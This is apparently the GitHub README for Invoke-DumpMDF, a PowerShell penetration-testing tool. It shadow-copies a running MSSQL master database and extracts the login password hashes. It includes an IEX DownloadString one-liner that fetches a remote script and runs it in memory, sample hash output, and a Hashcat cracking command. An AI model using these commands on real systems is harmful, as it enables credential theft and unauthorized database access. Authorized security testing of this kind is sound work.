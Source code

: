 # Invoke-DumpMDF

Invoke-DumpMDF is a PowerShell script based on the original code by XPN (xpn.github.io). Invoke-DumpMDF creates a Volume Shadow Copy of the running MSSQL database, allowing the master.mdf file to be safely copied even while in use. It then extracts the login password hashes found within the master database.

Invoke-DumpMDF requires diskshadow to be installed (Default on Windows Server). This is to allow the running master.mdf database to be copied into a new file before extraction. After completion, the script will cleanup after itself. 

The resulting hashes can be cracked with Hashcat.

## Requirements
- Administrative or SYSTEM level privileges are required.
- Disk Shadow installed (Default on Windows Server)



## Usage
```powershell
# Load into memory
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/The-Viper-One/Invoke-DumpMDF/refs/heads/main/Invoke-DumpMDF.ps1")

# Execute
Invoke-DumpMDF
```
  
## Example Output
```powershell
PS> Invoke-DumpMDF

Name  : sa
Value : 0x020050B40C7843AC5C196F9375549D3...

Name  : MS_PolicyEventProcessingLogin
Value : 0x0200F54F742AB9F142716E96CB13317...

Name  : MS_PolicyTsqlExecutionLogin
Value : 0x020043538738C5813669062A64AS0CC...
```
## Crack with Hashcat
```
hashcat.exe -m 1731 -a 0 -O 0x020050B40C7843AC5C196F9375549D3... Wordlists\rockyou.txt -r rules\best54.rule
```
## Further Reading 
- https://blog.xpnsec.com/extracting-master-mdf-hashes/
- https://medium.com/@jacobdiamond/extracting-sql-user-hashes-leveraging-bak-files-for-mssql-server-access-in-ad-pentest-b42e7bbcc88c

